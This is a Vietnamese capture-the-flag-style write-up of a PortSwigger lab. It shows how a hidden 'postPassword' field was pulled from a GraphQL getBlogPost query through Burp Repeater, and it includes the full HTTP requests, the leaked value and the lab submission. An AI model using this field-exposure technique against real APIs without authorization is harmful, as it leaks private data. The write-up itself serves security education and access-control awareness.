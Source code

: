 # Write-up: Accessing private GraphQL posts

### Tổng quan
Khai thác lỗ hổng trong API GraphQL, nơi trường nhạy cảm `postPassword` trong query `getBlogPost` bị lộ mà không có kiểm soát truy cập. Bằng cách sửa đổi query trong Burp Repeater để lấy trường `postPassword` của bài post với `id:3`, kẻ tấn công lấy được mật khẩu bài post và nộp giải pháp để hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng lộ trường nhạy cảm trong query GraphQL `getBlogPost`, lấy trường `postPassword` của bài post với `id:3`, và nộp giải pháp để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Quan sát Burp History, tìm request gửi đến endpoint `/graphql/v1`:  
  ```
  POST /graphql/v1 HTTP/2
  Host: 0ah8015p16qr7890l0mn145600op00ml.web-security-academy.net
  Content-Type: application/json

  {
    "query": "query getBlogSummaries {\n    getAllBlogPosts {\n        image\n        title\n        summary\n        id\n    }\n}"
  }
  ```  
- **Phân tích**:  
  - Query `getAllBlogPosts` trả về danh sách bài post với các trường `image`, `title`, `summary`, `id`.  
  - Phản hồi thiếu bài post với `id:3`, cho thấy bài post này có thể là private hoặc ẩn:  
    ![Request getBlogSummaries](./images/1_id.png)  

2. **Khai thác trường nhạy cảm**  
- Sử dụng Burp Repeater để kiểm tra các trường khác của query GraphQL.  
- Phát hiện query `getBlogPost` hỗ trợ trường `postPassword` thông qua thử nghiệm hoặc phân tích schema (ví dụ: bằng InQL).  
    ![Kết quả getBlogPost](./images/2_GraphQL.png)  
- Sửa đổi query để lấy trường `postPassword` cho bài post với `id:3`:  
  ```
  POST /graphql/v1 HTTP/2
  Host: 0ah8015p16qr7890l0mn145600op00ml.web-security-academy.net
  Content-Type: application/json

  {
    "query": "query getBlogSummaries($id: Int!) {\n    getBlogPost(id: $id) {\n        image\n        title\n        summary\n        id\n        postPassword\n    }\n}",
    "variables": {"id": 3}
  }
  ```  
- Kết quả: Trả về thông tin bài post với `id:3`, bao gồm trường nhạy cảm `postPassword`:  
  ```
  {
    "data": {
      "getBlogPost": {
        "image": "...",
        "title": "...",
        "summary": "...",
        "id": 3,
        "postPassword": "y6cokhoi5flpri86aggh3ungi7yxsc1u"
      }
    }
  }
  ```  
- **Phân tích**: Trường `postPassword` được trả về mà không yêu cầu xác thực, cho thấy lỗ hổng lộ thông tin nhạy cảm:  
  ![Kết quả getBlogPost](./images/3_password.png)  

3. **Hoàn thành lab**  
- Nộp giá trị `postPassword` (`y6cokhoi5flpri86aggh3ungi7yxsc1u`) vào phần **Submit solution** của lab:  
  ```
  POST /submitSolution HTTP/2
  Host: 0ah8015p16qr7890l0mn145600op00ml.web-security-academy.net
  Content-Type: application/x-www-form-urlencoded

  solution=y6cokhoi5flpri86aggh3ungi7yxsc1u
  ```  
- Kết quả: Lab xác nhận hoàn thành:  
  ![Lab hoàn thành](./images/4_solved.png)  

- **Ý tưởng payload**:  
  - Sử dụng query `getBlogPost` với `id:3` để lấy trường `postPassword`, vốn không được liệt kê trong query `getAllBlogPosts`, và nộp giá trị để hoàn thành lab.  

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng lộ trường nhạy cảm trong GraphQL, sử dụng query `getBlogPost` để lấy trường `postPassword` mà không cần xác thực.  
- Nhận thức tầm quan trọng của việc kiểm soát truy cập các trường nhạy cảm trong schema GraphQL, áp dụng xác thực và phân quyền để ngăn chặn rò rỉ thông tin như mật khẩu bài post.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác lỗ hổng lộ trường nhạy cảm trong API GraphQL, nhấn mạnh tầm quan trọng của việc kiểm soát truy cập và bảo vệ các trường như `postPassword` để ngăn chặn r